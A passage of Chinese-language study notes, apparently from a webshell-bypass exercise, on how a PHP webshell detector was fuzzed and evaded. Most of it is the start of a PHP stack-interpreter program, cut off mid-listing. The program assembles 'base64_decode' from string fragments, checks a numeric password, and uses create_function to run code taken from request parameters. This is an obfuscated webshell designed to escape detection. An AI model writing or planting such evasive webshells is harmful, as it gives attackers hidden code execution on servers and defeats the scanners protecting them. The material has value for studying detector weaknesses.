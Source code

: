 			  // var_dump($stack);
			  // var_dump($p);
			  
			  
			  ```
		- 本来还搓了一个lisp，但是发现lisp没办法帮助绕过，因为lisp不会像上面那个解释器一样把所有状态都塞到一个stack里面，从而导致最后的代码非常容易分析
	- fuzz可以发现
		- 分支对抗的检测手法包括
			- 检测是否有函数含有大量的if, 并且分支中是否有动态函数调用等危险的操作
			- 在代码存放在一个数组中时，检测是否在来回读取数组并进行危险操作
				- 所以
			- 貌似会重点检测下面这类函数：
				- 函数从输入参数中拿出函数名和参数
				- 然后动态调用函数名对应的函数
				- 最后直接返回结果
		- fuzz完发现这东西真的很无脑
			- 交了一个正常的lisp实现也会被封，甚至里面没有任何lisp代码，仅仅只有一个解释器也会被封。。。
			- 然后发现它检测的是解释器里的的动态函数调用。。。
		- 还有一个`不确定值对抗绕过`不知道是什么原理，一般随着分支对抗绕过出现，绕过分支对抗检测这东西就消失了
	- 最后代码如下，其实还可以考虑从外部传入代码
	  id:: 65af44bb-c870-4433-a5cb-38adaf3b6df5
	  collapsed:: true
		- ```php
		  <?php
		  
		  $code = [
		      ["define", "make_b64", 12],
		      ["push", "bas"],
		      ["push", "e64_"],
		      ["push", "dec"],
		      ["push", "ode"],
		      ["swap",],
		      ["concat",],
		      ["swap",],
		      ["concat",],
		      ["swap",],
		      ["concat",],
		      ["swap",],
		      ["jump",],
		  
		      ["push", 'return array_push($GLOBALS["stack"], $_REQUEST);'],
		      ["push", ''],
		      ["push", "create_function"],
		      ["call2"],
		      ["call0"],
		      ["pop"],
		      ["push", "pswd"],
		      ["get"],
		      ["addby", 114000],
		      ["addby", 514],
		      ["if", ["shift", 8]],
		  
		      ["push", "1"],
		      ["get"],
		      ["push", 'return '],
		      ["concat"],
		      ["push", ''],
		      ["push", "create_function"],
		      ["call2"],
		      ["call0"],
		  